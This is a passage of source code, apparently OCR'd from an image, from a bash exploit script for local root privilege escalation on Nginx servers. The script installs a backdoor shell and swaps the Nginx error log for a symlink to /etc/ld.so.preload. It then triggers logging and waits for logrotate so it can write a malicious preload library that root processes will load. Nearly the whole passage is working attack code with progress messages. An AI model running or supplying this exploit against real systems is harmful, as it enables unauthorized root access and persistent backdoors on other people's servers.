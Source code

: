     # /bin/bash -c "gcc -Wall -fPIC -shared -o $PRIVESCLIB $PRIVESCSRC -ldl"
    # if [ $? -ne 0 ]; then
    #     echo -e "\n[!] Failed to compile the privesc lib $PRIVESCSRC."
    #     cleanexit 2;
    # fi


    # Prepare backdoor shell
    cp $BACKDOORSH $BACKDOORPATH
    echo -e "\n[+] Backdoor/low-priv shell installed at: \n`ls -l $BACKDOORPATH`"

    # Safety check
    if [ -f /etc/ld.so.preload ]; then
        echo -e "\n[!] /etc/ld.so.preload already exists. Exiting for safety."
        exit 2
    fi

    # Symlink the log file
    rm -f $ERRORLOG && ln -s /etc/ld.so.preload $ERRORLOG
    if [ $? -ne 0 ]; then
        echo -e "\n[!] Couldn't remove the $ERRORLOG file or create a symlink."
        cleanexit 3
    fi
    echo -e "\n[+] The server appears to be \033[94m(N)jinxed\033[0m (writable logdir) ! :) Symlink created at: \n`ls -l $ERRORLOG`"

    # Make sure the nginx access.log contains at least 1 line for the logrotation to get triggered
    curl http://localhost/ >/dev/null 2>/dev/null
    # Wait for Nginx to re-open the logs/USR1 signal after the logrotation (if daily 
    # rotation is enable in logrotate config for nginx, this should happen within 24h at 6:25am)
    echo -ne "\n[+] Waiting for Nginx service to be restarted (-USR1) by logrotate called from cron.daily at 6:25am..."
    while :; do 
        sleep 1
        if [ -f /etc/ld.so.preload ]; then
            echo $PRIVESCLIB > /etc/ld.so.preload
            rm -f $ERRORLOG
            break;
        fi
    done
